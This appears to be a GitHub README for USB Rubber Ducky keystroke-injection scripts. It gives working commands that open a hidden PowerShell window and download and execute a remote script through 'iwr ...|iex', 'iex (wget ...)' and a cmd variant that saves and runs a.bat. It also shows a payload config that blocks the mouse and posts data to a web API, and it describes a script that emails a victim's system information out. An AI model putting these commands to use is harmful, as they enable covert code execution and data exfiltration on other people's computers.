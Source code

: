 <br>
<br>
<h1 align="center" style="border: none !important; padding-bottom: 1em !important;">🦆<br><br>Ducky Scripts</h1>  

<p align="center">
A few scripts for the USB rubber ducky from HAK5. The scripts are written in ducky script.
</p>

```
                                  _      _      _      USB       _      _      _
                               __(.)< __(.)> __(.)=   Rubber   >(.)__ <(.)__ =(.)__
                               \___)  \___)  \___)    Ducky!    (___/  (___/  (___/ 

```

## ExeWebScript
> **Note!** Your powershell Script file must be publicly hosted on the web and is by definition not secure. Be aware that you do not put sensitive or personal data inside the powershell script.  

This Rubber Ducky Script executes a custom powershell script that is hosted online. Host the `powershellScript.txt` or a custom script online and change the locatin in `ExeWebScript.duck` to that hosted script. 

### Ducky script
The `ExeWebScript.duck` opens the RUN box ([WINDOWS] + R), and opens a hidden powershell. `powershell -windowstyle hidden`. 
In powershell it uses IEX to execute plain text from wget. Examples:
```powershell
# shortest
  iwr www.yourSite.com/powershellScript.txt|iex

# alternative
  iex (wget www.yourSite.com/powershellScript.txt)
```
With the `AlternativeExeWebScript.duck` it first opens cmd instead of powershell and executes the next line of code:
```cmd
(powershell -Command "& {Invoke-WebRequest -Uri www.yourSite.com/powershellScript.txt -OutFile a.bat}") & start /min a.bat & exit
```

### Powershell script
The powershellScript.txt is just as an example of what some 'harmless' things that you could do.  
It comes with a config for some options.
```powershell   

    $MinimizeWindows = $True;
    $ShowPopUp = $False;

    $OpenWebPage = $True;
        $urlNAV = "www.yourWebsite.com/PageToDisplay";
        $OpenInFullScreen = $True;    
        
    $SendPostToAPI = $True;
        $urlAPI = "www.yourWebsite.com/PostAPI";
        
    $BlockMouse = $True;
        $BlockedTimeSeconds = 8;

    $SpeakText = $True;
        $TextToSpeak = "Hi. This is a Rubber Ducky";

```

## SendSystemInfo
> **Note!** Your password and emailadress wil be typed in plain text on the victim's computer  

This script sends the system information from a victim's computer to a specified e-mail address.
